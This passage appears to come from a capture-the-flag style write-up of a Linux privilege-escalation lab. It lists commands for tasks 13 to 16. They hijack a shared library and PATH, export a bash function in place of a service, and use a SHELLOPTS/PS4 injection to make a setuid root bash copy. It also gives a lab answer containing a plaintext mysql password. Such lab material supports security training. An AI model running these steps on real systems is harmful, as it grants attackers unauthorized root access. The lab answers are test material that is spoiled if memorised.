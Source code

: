 - Read and follow along with the above.
	-`No answer needed`

```
/usr/local/bin/suid-so
strace /usr/local/bin/suid-so 2>&1 | grep -iE "open|access|no such file"
mkdir /home/user/.config
gcc -shared -fPIC -o /home/user/.config/libcalc.so /home/user/tools/suid/libcalc.c
/usr/local/bin/suid-so
```
#### Task 13: SUID / SGID Executables - Environment Variables

- Read and follow along with the above.
	- `No answer needed`


```
/usr/local/bin/suid-env
strings /usr/local/bin/suid-env
gcc -o service /home/user/tools/suid/service.c
PATH=.:$PATH /usr/local/bin/suid-env
```

#### Task 14: SUID / SGID Executables - Abusing Shell Features (#1)

- Read and follow along with the above.
	- `No answer needed`


```
strings /usr/local/bin/suid-env2
/bin/bash --version
function /usr/sbin/service { /bin/bash -p; }
export -f /usr/sbin/service
/usr/local/bin/suid-env2
```

#### Task 15: SUID / SGID Executables - Abusing Shell Features (#2)

- Read and follow along with the above.
	- `No answer needed`

```
env -i SHELLOPTS=xtrace PS4='$(cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash)' /usr/local/bin/suid-env2
/tmp/rootbash -p
rm /tmp/rootbash
exit
```

#### Task 16: Passwords & Keys - History Files

- What is the full mysql command the user executed?
	- `mysql -h somehost.local -uroot -ppassword123`
